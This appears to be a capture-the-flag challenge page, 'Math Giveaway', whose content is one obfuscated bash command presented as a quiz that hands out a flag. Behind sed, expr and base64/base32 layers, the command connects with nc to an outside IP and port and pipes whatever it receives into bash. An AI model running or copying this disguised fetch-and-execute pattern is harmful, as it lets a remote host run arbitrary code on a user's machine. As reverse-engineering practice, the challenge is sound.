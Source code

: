 # Math Giveaway
Author: [@sultanowskii](http://t.me/sultanowskii)

This command is found on _5up3r\_U53r\_2004_'s PC

**/!\\ WARNING /!\\** This command is only executable on linux

```bash
bash -c 'echo "[*] Math Giveaway v1.0. Just tell me what is 2*2+2 and get yo flag!"; read q; if ! [[ $q -eq 6 ]]; then echo "[!] Incorrect answer :c"; else echo "[.] Gettin yo flag, please, stand by..."; srv="`echo "127.0.0.1" | sed "s/12/7/g" | sed "s/1/24/g" | sed "s/7.0/7.q/g" | sed "s/0/96/g" | sed "s/q/223/g"` `expr $(expr $(expr 20 \* 15)) \* $(expr $(expr 20 \* 5) - 30) + 6`"; if [[ `$(echo "==QPN1mY" | rev | base64 -d | base64 -d) -z ${srv};` -eq 0 ]]; then sleep 3; bash -c "`(echo "JZDFGQJ5HU6T2===" | base32 -d | base32 -d | bash;) | $(bash -c "echo bmM= | base64 -d") -n $(echo "${srv}")`"; else echo "[!] Plz check ur internet connection"; fi; fi;'
```
